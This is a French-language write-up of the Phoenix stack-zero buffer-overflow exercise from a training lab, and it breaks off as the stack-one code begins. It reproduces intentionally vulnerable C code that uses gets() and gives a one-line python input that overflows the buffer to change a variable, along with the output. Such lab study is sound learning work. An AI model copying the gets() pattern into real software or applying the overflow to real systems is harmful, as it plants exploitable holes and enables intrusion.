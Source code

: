 ```c

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

- Le fait de déclarer `buffer` et `changeme` dans une struct, permet d'être sûr que les 64 caractères de `buffer` précèderont l'entier `changeme`.
- Ajoutant à cela le fait que l'implémentation `gets` simpliste permet d'écrire autant d'octets qu'on veut (segfault si elle arrive à une adresse interdite).
- Ainsi, en écrivant plus de 64 octets, on va modifier la valeur de `changeme`.

```sh
user@phoenix-amd64:~$ python -c 'print("E"*64+"\x10\x20\x30\40")' | /opt/phoenix/amd64/stack-zero 
```
```
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

<center><div class="figure-container-small">
<figure class="figure"> 
<img src="./_static/images/phoenix/stack-zero.png"/>
</figure>
<figcaption>Disposition de la structure en mémoire.</figcaption>
</div></center>

> Remarquez que la valeur de **changme** est inversée, vu qu'on écrit depuis l'adresse basse à l'adresse haute, et que l'architecture amd64 suit le schéma **little-endian**.

## Stack-one

- Le code:

```c

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
```